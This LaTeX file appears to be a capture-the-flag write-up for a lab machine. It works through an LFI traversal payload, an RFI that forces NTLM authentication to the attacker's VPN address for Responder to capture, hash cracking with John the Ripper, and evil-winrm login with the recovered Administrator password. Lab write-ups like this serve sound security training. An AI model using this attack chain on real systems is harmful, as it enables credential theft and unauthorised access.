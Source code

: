 \documentclass[a4paper,10pt]{article}
\begin{document}
Which of the following values for the `page' parameter would be an example of exploiting a Local File Include (LFI) vulnerability: ``french.html'', ``//10.10.14.6/somefile'', ``../../../../../../../../windows/system32/drivers/etc/hosts'', ``minikatz.exe''
\begin{bash}
../../../../../../../../windows/system32/drivers/etc/hosts
\end{bash}

Which of the following values for the `page' parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: ``french.html'', ``//10.10.14.6/somefile'', ``../../../../../../../../windows/system32/drivers/etc/hosts'', ``minikatz.exe''
\begin{bash}
//10.10.14.208/somefile
\end{bash}

In this case \texttt{10.10.14.208} is my IP address on the VPN.

What does NTLM stand for? New Technology LAN Manager.

Which flag do we use in the Responder utility to specify the network interface? \texttt{-I}.
\begin{bash}
yay -S responder
echo "sometext" > somefile
ip a
responder -I tun0
\end{bash}

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john', but the full name is what? John the Ripper.

Then we go to \texttt{unika.htb/?page=//10.10.14.208/somefile}. The \texttt{responder} utility than obtains a NTLMv2 hash. We save it to \texttt{hash.txt}, then use \texttt{john}:
\begin{bash}
sudo pacman -S john
tldr john
john hash.txt
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
badminton        (Administrator)
\end{bash}

What is the password for the administrator user? \texttt{badminton}.

We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? \texttt{5985}, result of our scan.

We need to install \texttt{evil-winrm} to remotely access the Windows service.
\begin{bash}
yay -S ruby-evil-winrm
tldr evil-winrm
evil-winrm --ip 10.129.83.31 --user Administrator --password badminton -P 5985
\end{bash}
\end{document}

